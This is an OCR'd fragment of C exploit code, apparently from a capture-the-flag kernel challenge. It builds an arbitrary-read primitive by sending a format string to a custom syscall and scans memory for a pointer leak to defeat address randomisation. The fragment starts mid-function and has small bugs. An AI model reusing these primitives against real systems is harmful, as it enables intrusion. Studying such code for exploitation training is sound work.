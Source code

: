 ```c
    char *buf = malloc(size);
    int ret = read(fd, buf, size);
    free(buf);

    return ret;
}

uint64_t read_ptr_stdin(){
    uint64_t ptr = 0;
    int n = bytes_left();

    if(n > 0){
        read(fd, &ptr, 8);
    }

    return ptr;
}

uint64_t arb_read(uint64_t ptr){
    clear_stdin();
    char *data[] = {"%s", ptr};
    syscall(SYSCALL_NO, data);
}

uint64_t arb_read_ptr(uint64_t ptr){
    char tmp[8];
    uint64_t ret;
    
    arb_read(ptr);
    ret = read_ptr_stdin();

    if(strlen(&ret) != 8){
        for(int i = 0; i < 8; i++){
            arb_read(ptr + i);
            tmp[i] = read_ptr_stdin() & 0xff;
        }
        ret = *(uint64_t *)tmp;
    }

    return ret;
}

uint64_t get_leak(){
    uint64_t leak, ptr;
    int offset = 0;

    char *data[] = {"12345678"};
    syscall(SYSCALL_NO, data);

    read_ptr_stdin();
    ptr = read_ptr_stdin();

    printf("%p\n", ptr);    
    clear_stdin();

    while((leak & 0xffff) != 0x4ec0){
        leak = arb_read_ptr(ptr + offset);

        offset += 8;
    }

    return leak;
}
```